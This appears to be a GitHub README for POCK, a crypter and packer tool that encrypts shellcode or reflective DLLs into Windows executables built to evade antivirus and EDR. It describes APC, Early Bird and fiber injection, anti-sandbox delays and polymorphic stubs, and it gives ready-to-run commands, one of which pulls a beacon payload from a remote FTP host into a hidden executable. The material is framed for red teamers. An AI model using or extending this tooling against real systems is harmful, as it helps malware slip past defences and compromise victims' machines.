 # POCK - Polymorphic Obfuscation and Crypter Kit

**“UnPACKable payloads start here!”**  
A customizable binary packer designed for red teamers, malware researchers, and offensive security professionals.

---

## Overview

POCK (Polymorphic Obfuscation and Crypter Kit) is a modular crypter and packer framework that encrypts and embeds raw payloads into stealthy Windows executables. It is built to help offensive operators evade endpoint detection and response (EDR) and antivirus solutions by implementing polymorphic stubs, anti-sandbox logic, and multiple injection methods.

POCK supports:

- Payload types: raw shellcode (`.bin`) or reflective DLLs (`.dll`)
- Multiple encryption options: AES or XOR
- Staging payloads externally via FTP or embedding them directly
- Injection techniques such as:
  - Asynchronous Procedure Call (APC)
  - Early Bird APC
  - Fiber-based execution
- Anti-analysis features: entropy delay, Fibonacci and factorial loops, sleep timer
- Stub polymorphism via Jinja2-based template randomization
- Hidden compilation for stealth or console mode for debugging

---

## Features

- AES and XOR encryption support
- Jinja2-powered polymorphic stub generation
- Built-in anti-analysis and sandbox evasion logic
- Supports both embedded and staged payloads
- Multiple code injection options
- Configurable execution delays
- Generates fully native Windows executables using `mingw-w64`

---

## Requirements

- Python 3.8 or higher
- [pycryptodome](https://pypi.org/project/pycryptodome/)
- [jinja2](https://pypi.org/project/Jinja2/)
- MinGW-w64 cross-compiler (e.g. `x86_64-w64-mingw32-gcc`)

### Install Python dependencies:

```bash
pip install -r requirements.txt
```
Usage:
```bash
python3 POCK.py -i <input_file> -o <output_file> -e <encryption> -k <key> -t <payload_type> [options]
```
Required Arguments
-i, --input
Path to raw shellcode (.bin) or DLL (.dll) file

-o, --output
Name of the compiled output executable

-e, --encryption
Encryption method to use: aes or xor

-k, --key
Key to encrypt the payload

-t, --type
Payload type: shellcode or dll

Optional Arguments
--inject <method>
Injection method: apc, earlybird, fiber

--url <ftp_url>
FTP URL for remote payload staging

--ftp-user <username>
FTP username for authentication

--ftp-pass <password>
FTP password for authentication

--entropy
Add entropy-based execution delay

--fibonacci
Add Fibonacci loop delay

--factorial
Add factorial computation delay

--sleep <seconds>
Sleep for specified seconds before executing

--hide
Compile stub as a hidden (GUI) executable instead of console

Example Commands
```bash
Generating an embedded payload
python3 POCK.py -i payload.bin -o packed.exe -e aes -k <AES Key> -t shellcode --inject apc --entropy --fibonacci --sleep 15 --hide

Generating a staged stub
python3 POCK.py -i beacon.dll -o agent.exe -e xor -k RedTeamFTW -t dll --url ftp://192.168.50.219/payload.bin --ftp-user user --ftp-pass pass --inject fiber --hide
```
